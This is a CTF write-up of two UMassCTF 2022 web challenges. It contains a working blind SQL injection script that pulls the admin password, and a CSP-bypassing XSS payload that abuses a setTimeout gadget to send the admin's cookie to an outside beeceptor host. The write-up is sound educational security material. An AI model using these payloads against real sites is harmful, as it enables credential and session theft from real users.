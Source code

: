 ```yaml
---
title: UMassCTF 2022
author: HoangND
date: 2022-04-03 00:00:00 +0700
categories: [Writeups, UmassCTF 2022]
tags: [sqli, dom xss]
---
```


I haven't released any CTF writeups for a long time. Today i done 2 web challenge in UmassCTF so i decided writing something.

# Venting

![image](https://user-images.githubusercontent.com/61985236/161438032-f27b69b3-95c2-4fb2-9edf-2c390c2dc73b.png)

After tried web features, the proxy history showed me 1 interest endpoint.

![image](https://user-images.githubusercontent.com/61985236/161438156-c058349d-729f-497d-936e-1cde76e9243b.png)

Just change admin=True and we will get admin login page. Trying put ' in an textbox give me that this is sql injection challenge.

I tried dumped admin's password by the following script and get the flag.
```python
import requests

passwd = ''
    
for i in range(36):
    for x in range(127, 31, -1):
        c = chr(x)
        basepl = {
            "user": "admin",
            "pass": "1' or (SELECT hex(substr(password,{},1)) FROM users WHERE+username='admin') > hex('{}') and 'a'='a".format(i+1, c)
        }
        res = requests.post(
            'http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/login', data=basepl, verify=False)
        # print(c+'  :  '+str(len(res.text)))
        if len(res.text) == 113:
            passwd += chr(x+1)
            break

    print(passwd)

```


# Umassdining
![image](https://user-images.githubusercontent.com/61985236/161434067-5c5d653a-9c04-43e4-810d-71f0c92c829d.png)
The source code is given in the challenge's description but I checked web features first. The web navigation shows us 3 options: Home, Register, Join. Register is basically for registration, after fill the form we got the message 'We got your request and will read it shortly!'. Join navigation is maybe administrator feature because the message 'You're not allowed here!' appeared. Next we audit the source code. This web has the following 3 main endpoint

```python
@app.route("/register",methods = ['GET','POST'])
def get_register():
    if(request.method=='GET'):
        response = make_response(render_template('register.html'))
        add_resp_headers(response);
        if(check_for_cookie()==False):
            response.set_cookie("auth","-1",secure=True,samesite=None)
        return response
    elif(request.method=='POST'): 
        if(active_count()<10):
            data = request.form.to_dict()
            thread = Thread(target=bot.checkEssay,kwargs={'data':data})
            thread.start()
            return "We got your request and will read it shortly!",200
        else:
            return "We are busy right now, try again in a second",200

@app.route("/review/essay",methods = ['GET','POST'])
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200

@app.route("/join",methods = ['GET'])
def get_play():
    if(request.cookies.get("auth")==admin_cookie):
        return "TEST{not_the_real_flag}",200
    return "You're not allowed here!",403
```

Endpoint /join checks auth cookie and only returns flag if it is admin cookie. I need to get the admin token by somehow. /register forwards request data to bot.checkEssay

```python
def checkEssay(data):
    opts = Options()
    opts.add_argument("--headless")
    driver = Firefox(executable_path='/usr/bin/geckodriver',options=opts)
    driver.set_window_size(320, 240)
    driver.set_page_load_timeout(5)
    driver.get('http://127.0.0.1:8000/')
    driver.add_cookie({"name":"auth","value":admin_cookie})
    driver.get('http://127.0.0.1:8000/review/essay?email={a}&essay={b}'.format(a=data['email'],b=data['essay']))    
    time.sleep(3)
    driver.quit()
```

The above section takes data from register endpoint, add admin's cookie to cookie and make request to the last of 3 endpoints - /review/essay, maybe i could leak the cookie from this. Look /review/essay handler

```python
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200
```

Check the essay_checker template returned by the above handler

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Essay Review</title>
</head>
<body>
    <h1> 
        Essay Review Panel
    </h1><br>
    <div>
        <main>
            Essay<br> 
            {{essay.essay|safe}}<br>
            Author<br>
            {{essay.email}}<br>
        </main>
    </div>
</body>
</html>
```

The jinja2's safe filter is used in essay property of essay object. The safe filter basically disables html-escape in the expression passed through it while rendering html page. It's maybe vulnerable to XSS exploit and i can make outbound request to get admin's cookie. I tried some basic payload but it didn't work, my outbound server didn't get any requests. The reason is the following

![image](https://user-images.githubusercontent.com/61985236/161436404-6ad54892-f973-4b15-8e6a-f7b945b99f17.png)

```python
def add_resp_headers(response):
    response.headers['Content-Security-Policy']= "default-src 'self';script-src 'self' 'unsafe-eval'"
```

The above section adds CSP header to response that restrict browser can only load resource from the current origin. It literally means all directly payloads from our essay param won't work. For more information about CSP, you can read [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). I checked static folder and expected there was any usefull javascript file in it. And i saw things.js

```javascript
var iloveumass = document.getElementById("debug").getAttribute("data-iloveumass");
function say_something(words)
{
    setTimeout(`console.log('${words}')`,500)
}
document.addEventListener("DOMContentLoaded", function() {
    say_something(iloveumass)
});
```

This script gets the html element with id 'debug', takes 'data-iloveumass' attribute from it and passes it to vulnerable setTimeout function call. We can manipulate this file to bypass CSP protection. Final payload is the following

```html
<script id='debug' src="/static/js/thing.js" data-iloveumass="aaa');eval(document.location='http://hoangnd.free.beeceptor.com?cookie='%2bdocument.cookie);console.log('aaa"></script>
```

Put it in essay in register form, and an request will be made to your server.

![image](https://user-images.githubusercontent.com/61985236/161437862-27d1340d-9516-4ecc-b6e2-27f02e629e92.png)

Add admin's cookie to /join endpoint and get flag.




